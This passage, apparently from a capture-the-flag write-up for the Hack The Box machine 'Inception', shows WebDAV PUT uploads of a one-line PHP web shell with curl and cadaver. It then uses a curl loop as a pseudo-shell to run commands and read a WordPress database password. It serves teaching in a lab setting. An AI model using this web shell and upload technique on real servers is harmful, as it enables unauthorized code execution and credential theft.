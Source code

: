 ```bash
PUT Shell: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/yY8ocCsJAt6_php_cmd.php
PUT Shell: http://inception.htb/webdav_test_inception/DavTestDir_yY8ocCsJAt6/yY8ocCsJAt6_php_backdoor.php
```
So I can upload any file and even execute php files.
If this wouldn't have worked, I would've tried for something like upload .txt files and then renaming it to .php.
I won't use the webshell `davtest` uploaded.

I can use something like `cadaver` to upload files:
```bash
$ cadaver http://inception.htb/webdav_test_inception/
Authentication required for webdav test credential on server `inception.htb':
Username: webdav_tester
Password:
dav:/webdav_test_inception/> put /opt/phprev.php
Uploading /opt/phprev.php to `/webdav_test_inception/phprev.php':
Progress: [=============================>] 100.0% of 3462 bytes succeeded.
```
or 
I made a file call shell.php with contents:
```php
<?php system($_GET['cmd']);?>
```
and then uploaded it to the server:
```bash
$ curl -XPUT -T ./shell.php http://inception.htb/webdav_test_inception/shell.php -u webdav_tester:babygurl69
****** 201 Created ******
Resource /webdav_test_inception/shell.php has been created.
===============================================================================
     Apache/2.4.18 (Ubuntu) Server at inception.htb Port 80

$ curl -u webdav_tester:babygurl69 http://inception.htb/webdav_test_inception/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This is a simple workaround I did as I wasn't able to spawn a reverse shell.
```bash
root@TheCaretaker:~/$ while read i; do curl -u webdav_tester:babygurl69 'http://inception.htb/webdav_test_inception/shell.php' -G --data-urlencode "cmd=$i"; echo -n '$ ';done
$ pwd
/var/www/html/webdav_test_inception
$ ls ..
LICENSE.txt
README.txt
assets
dompdf
images
index.html
latest.tar.gz
webdav_test_inception
wordpress_4.8.3

$ cat ../wordpress_4.8.3/wp-config.php | grep -v '\*'
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8');
```
